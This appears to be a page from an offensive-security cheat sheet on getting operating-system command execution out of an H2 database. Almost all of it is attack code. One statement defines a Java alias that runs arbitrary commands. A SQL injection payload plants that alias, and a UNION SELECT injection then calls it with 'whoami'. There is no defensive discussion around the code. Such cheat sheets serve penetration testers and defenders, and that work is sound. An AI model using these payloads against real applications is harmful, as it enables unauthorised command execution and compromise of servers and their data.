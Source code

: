 ## Execute OS Command
### H2 Database
```SQL
CREATE ALIAS EXEC_OS_COMMAND AS '  
String exec(String cmd) throws Exception {  
Process process = Runtime.getRuntime().exec(cmd);  
Scanner scanner = new Scanner(process.getInputStream()).useDelimiter("\\A");  
return scanner.hasNext() ? scanner.next() : "";  
}';
```

Example payload:
```SQL
a';CREATE ALIAS EXEC_OS_COMMAND AS '
String exec(String cmd) throws Exception {
    Process process = Runtime.getRuntime().exec(cmd);
    Scanner scanner = new Scanner(process.getInputStream()).useDelimiter("\\A");
    return scanner.hasNext() ? scanner.next() : "";
}';--
```

Example execution:
```SQL
a' UNION SELECT 1,2,EXEC_OS_COMMAND('whoami');--
```
